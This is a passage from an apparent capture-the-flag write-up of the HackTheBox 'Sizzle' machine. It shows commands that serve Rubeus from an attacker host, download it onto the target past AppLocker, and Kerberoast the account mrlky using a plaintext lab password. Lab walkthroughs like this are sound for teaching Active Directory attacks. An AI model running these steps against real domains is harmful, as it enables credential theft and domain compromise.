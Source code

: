 <figure><img src="../../../.gitbook/assets/sizzle_mlky_dcsync_bh.png" alt=""><figcaption><p>Figure 26: BloodHound shows us that the account mrlky has DCSync rights over the domain.</p></figcaption></figure>

To [Kerberoast](../../../tl-dr/tl-dr/active-directory/kerberoasting.md) `mrlky` we need to transfer [Rubeus](../../../tools/tools/active-directory/rubeus.md) to the target and execute it from a directory that does not interfere with the AppLocker group policy, such as `c:\windows\temp` (Figure 27).

{% tabs %}
{% tab title="1. HTTP Server" %}
```bash
# starting an HTTP server from the directory that Rubeus.exe resides
python3 -m http.server 80
```
{% endtab %}

{% tab title="2. Download" %}
{% code overflow="wrap" %}
```bash
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/Rubeus.exe -OutFile rb.exe
# running the executable
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /user:mrlky /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}
